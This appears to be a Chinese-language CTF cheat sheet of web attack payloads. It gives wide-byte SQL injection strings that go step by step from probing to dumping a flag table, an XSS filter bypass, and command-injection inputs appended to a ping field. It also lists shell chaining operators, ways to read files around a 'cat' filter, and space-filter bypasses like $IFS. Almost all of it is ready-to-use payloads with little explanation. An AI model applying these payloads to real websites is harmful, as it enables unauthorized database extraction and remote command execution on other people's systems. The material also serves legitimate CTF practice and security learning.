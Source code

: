 **宽字节注入**

```
1%df' and 1=1 --+
1%df' and 1=2 --+ 

-1%df' union select 1,2 --+
-1%df' union select 1,database() --+
-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() --+
-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x63746634 --+
-1%df' union select 1,flag from ctf4 --+

```
## SQL绕过思路
**单引号绕过**
- 十六进制替代
    - 0xxxxx

## XSS-bypass

```
\&#34;+confirm(1)+&#34;
```
## Ping常用命令

127.0.0.1;ls /
127.0.0.1;cat /flag

**管道符**
;	执行完前面语句再执行后面的。如ping 127.0.0.1; ls
|	显示后面语句的执行结果。如ping 127.0.0.1 | ls
||	前面语句出错时执行后面语句。如ping 127.0.0.1 || ls
&	前面语句为假则执行后面语句。如ping 127.0.0.1 & ls
&&	前面语句为假则报错，为真则执行后面语句。如ping 127.0.0.1 && ls


**过滤cat**
```bash
127.0.0.1;tac flag_573386320311.php #从最后一行倒序显示内容
127.0.0.1;more flag_573386320311.php #根据窗口大小，一页一页的现实文件内容
127.0.0.1;less flag_573386320311.php
127.0.0.1;head flag_573386320311.php # 只显示头几行
127.0.0.1;tail flag_573386320311.php # 只显示最后几行
127.0.0.1;nl flag_573386320311.php # 显示时输出行号
```

**过滤空格**
``< 、<>、%20(space)、%09(tab)、\$IFS\$9、 \${IFS}、$IFS、$IFS$1``

**过滤目录分隔符**
``;cd flag_is_here&&cat flag_128182724515598.php``
